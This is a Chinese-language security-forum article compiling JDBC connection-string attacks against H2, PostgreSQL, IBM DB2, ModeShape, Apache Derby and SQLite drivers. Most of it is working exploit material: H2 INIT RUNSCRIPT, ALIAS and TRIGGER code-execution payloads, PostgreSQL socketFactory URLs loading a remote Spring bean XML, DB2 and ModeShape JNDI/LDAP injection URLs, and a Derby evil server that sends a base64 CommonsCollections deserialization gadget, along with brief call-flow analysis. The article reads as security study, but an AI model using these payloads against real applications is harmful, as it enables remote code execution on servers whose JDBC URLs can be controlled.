# JDBC-Attack 攻击利用汇总 - 先知社区

JDBC-Attack 攻击利用汇总

- - -

# 前言

JDBC 的路漫漫，之前只学过 mysql 的 JDBC RCE，趁此机会补一下

# H2 RCE

H2 数据库是之前不怎么见到过的一款数据库，之前都不清楚可以 RCE，但从最近爆出的 MetaBase 2023 的 CVE 来看还是挺重要的，所以趁着这个机会给他一起学一下。

## INIT RunScript RCE

在 H2 数据库进行初始化的时候或者当我们可以控制 JDBC 链接时即可完成 RCE，并且有很多利用，首先就是 INIT，进行 H2 连接的时候可以执行一段 SQL 脚本，我们可以构造恶意的脚本去 RCE  
poc.sql

```plain
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

然后在初始化的时候指定 JDBC 链接为

```plain
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

其中`INIT=RUNSCRIPT FROM '[http://127.0.0.1:8000/poc.sql'](http://127.0.0.1:8000/poc.sql')`就会去获取恶意的 sql 脚本，进而 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155444-a2a57fc2-d60e-1.png)

不出意外完美的 RCE 了~

## Alias Script RCE

假如可以执行任意 H2 SQL 的语句，那么也可以完成 RCE，其实上述的 INIT 实质上也就是执行任意 H2 的 sql 语句。而执行语句也有很多讲究。对于上述的 INIT 需要出网，而我们可以利用加载字节码达到不出网 RCE 的效果，类似于 SPEL 以及 OGNL 注入内存马。

```plain
//创建别名
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;

//调用 SHELLEXEC 执行命令
CALL SHELLEXEC('id');
CALL SHELLEXEC('whoami');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155452-a7588cf8-d60e-1.png)

这样也可以 RCE，所以 H2 的攻击面是很多的

## TRIGGER Script RCE

除了 Alias 别名还可以用 TRIGGER 去手搓 groovy 或者 js 代码去 rce，但是 groovy 依赖一般都是不会有的，所以 js 是更加通用的选择。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155457-aac80440-d60e-1.png)

```plain
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```

这里是 groovy 执行命令的逻辑，对应的 exp 是

```plain
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
```

然后就是最常用的 JS 代码了，我们也可以利用 JS 加载内存马，但是要看是什么中间件

```plain
CREATE TRIGGER poc2 BEFORE SELECT ON
INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec("calc") $$;
```

假如你想加载内存马你可以参考[https://blog.csdn.net/qq\_45603443/article/details/126698982](https://blog.csdn.net/qq_45603443/article/details/126698982)  
这是基于 SpringBoot 的内存马

# Mysql JDBC RCE

[WebDog 必学的 JDBC 反序列化](https://www.yuque.com/boogipop/iwyn7t/nylflyac8hw3p1ip?view=doc_embed)  
mysql 的 JDBC 反序列化是最常见的。。。

# PostgreSQL JDBC RCE

## socketFactory/socketFactoryArg RCE

```plain
package com.javasec.jdbc.postgres;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;


public class PsqlJDBCRCE {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8000/bean.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

```plain
<dependency>
      <groupId>org.postgresql</groupId>
      <artifactId>postgresql</artifactId>
      <version>42.3.1</version>
    </dependency
```

bean.xml

```plain
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="pb" class="java.lang.ProcessBuilder">
    <constructor-arg value="calc.exe" />
    <property name="whatever" value="#{ pb.start() }"/>
   </bean>
</beans>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155525-bb331acc-d60e-1.png)

利用到了一个类，之前学 spring 经常用到的，操控 bean 的类，ClassPathXmlApplicationContext.class

## 调用流程

先知社区其实有一个很好理解的图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155531-bea0a314-d60e-1.png)

在 psql 的 jdbc 初始化的时候会读取 jdbc 链接里的某个参数，并且进行一些操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155535-c185f052-d60e-1.png)

首先进入这个 connect 方法。随后进入 makeconnect，携带 2 个参数，url 和 props，分别如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155542-c5877fa4-d60e-1.png)

重点关注一下 socketFactory 的参数以及 socketFactoryargs 这两个参数，他们最后会进行实例化相关的操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155548-c8b8276e-d60e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155554-cc5be46e-d60e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155557-cea68ae4-d60e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155602-d162f984-d60e-1.png)

以上四步都是一些初始化准备过程，然后接下来会进入到`ObjectFactory.instantiate`方法，在这里进行实例化相关操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155609-d557a9b8-d60e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155613-d7a1d388-d60e-1.png)

实例化了刚刚说的 CPX 类，读取一个 xml 文件，实例化某个 bean，导致了 RCE

## socketFactory/socketFactoryArg RCE

```plain
package com.javasec.jdbc.postgres;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;


public class PsqlJDBCRCE {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8000/bean.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?sslfactory="+socketFactoryClass+ "&sslfactory="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

其余不变，原理一模一样，代替品  
但是好像需要密码认证？

## loggerLevel/loggerFile 任意文件写入

这个也是需要密码的。实用性也不是很大

```plain
package com.javasec.jdbc.postgres;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;


public class PsqlJDBCRCE {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8000/bean.xml";
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        //String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        //String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?sslfactory="+socketFactoryClass+ "&sslfactoryarg="+socketFactoryArg;
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

# IBM DB2 JDBC JNDI RCE

```plain
<dependency>
  <groupId>com.ibm.db2</groupId>
  <artifactId>jcc</artifactId>
  <version>11.5.0.0</version>
</dependency>
```

首先是环境搭建，需要搭建一个 DB2 的数据库，这里我就直接拉 docker 了。  
`docker pull ibmcom/db2express-c:latest`  
`docker run -d --name db2 --privileged=true -p 50000:50000 -e DB2INST1_PASSWORD=db2admin -e LICENSE=accept ibmcom/db2express-c db2start`

```plain
package com.javasec.jdbc.DB2;

import java.sql.DriverManager;

public class DB2JDBCRCE {
    public static void main(String[] args) throws Exception {
        Class.forName("com.ibm.db2.jcc.DB2Driver");
        DriverManager.getConnection("jdbc:db2://127.0.0.1:50000/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/fgfhjn;");
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155621-dc8333c4-d60e-1.png)

## 流程分析

入口点也是 connect 方法 (com.ibm.db2.jcc)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155628-e0a005ae-d60e-1.png)

然后一系列的预处理后就进入了 run 方法，run 方法里面有 lookup(com.ibm.db2.jcc.am)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155633-e3a9999a-d60e-1.png)

然后自然就 JNDI 了

# ModeShape JDBC JNDI RCE

```plain
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.4.1.Final</version>
</dependency>
```

这个也和上面的一样是 JNDI 注入。

```plain
package com.javasec.jdbc.ModeShape;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Demo {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("org.modeshape.jdbc.LocalJcrDriver");
        DriverManager.getConnection("jdbc:jcr:jndi:ldap://127.0.0.1:1389/q2s3n8");
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155642-e906386c-d60e-1.png)

## 流程分析

首先也是 connect 起步

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155651-ee592d60-d60e-1.png)

其中`repositoryDelegate.createConnection`后续会做一些处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155654-f07b36c4-d60e-1.png)

initReposity 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155701-f4730f36-d60e-1.png)

lookup 触发

# Apache Derby

```plain
<dependency>
  <groupId>org.apache.derby</groupId>
  <artifactId>derby</artifactId>
  <version>10.10.1.1</version>
</dependency>
```

evilserver

```plain
public static void main(String[] args) throws Exception {
        // 监听端口，默认 4444，可以指定
        int          port   = 4444;
        ServerSocket server = new ServerSocket(port);
        Socket       socket = server.accept();

        // CC6
        String evil="rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADYWFhc3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl+woepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAAEc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AA3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXB0AAlnZXRNZXRob2R1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+ABxzcQB+ABN1cQB+ABgAAAACcHB0AAZpbnZva2V1cQB+ABwAAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAYc3EAfgATdXEAfgAYAAAAAXQABGNhbGN0AARleGVjdXEAfgAcAAAAAXEAfgAfc3EAfgAAP0AAAAAAAAx3CAAAABAAAAAAeHh0AANiYmJ4";
        byte[] decode = Base64.getDecoder().decode(evil);

        // 直接向 socket 中写入
        socket.getOutputStream().write(decode);
        socket.getOutputStream().flush();
        Thread.sleep(TimeUnit.SECONDS.toMillis(5));
        socket.close();
        server.close();
    }
```

demo

```plain
package com.javasec.jdbc.Derby;

import java.sql.DriverManager;

public class demo {
    public static void main(String[] args) throws Exception{
        Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
        //DriverManager.getConnection("jdbc:derby:dbname;create=true");
        DriverManager.getConnection("jdbc:derby:dbname;startMaster=true;slaveHost=127.0.0.1");
    }
}
```

先用 create=true 创建一个。才可以进行下一步

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155709-f9328ee8-d60e-1.png)

## 流程分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155712-fb4f559e-d60e-1.png)

在`ReplicationMessageTransmit$MasterReceiverThread`内部类中有一个 readMessage 方法，在进行连接时会直接反序列化数据流  
[](https://cdn.nlark.com/yuque/0/2023/png/32634994/1693896057052-f1855c8e-7c5d-4a42-b877-d53b1e56455e.png#averageHue=%23464a50&clientId=u5b0ef69b-b84a-4&from=paste&height=881&id=ueffdd69a&originHeight=1101&originWidth=1274&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1131999&status=done&style=none&taskId=u8acda363-5b7f-4ed5-b6fa-6458fc9dec7&title=&width=1019.2)

# SQLITE

这个我就不想多讲了，没有啥利用点基本，load\_extension 默认是关闭的，只可以进行 SSRF，鸡肋。

# 结尾

至此 JDBC-ATTACK 就告一段落了~
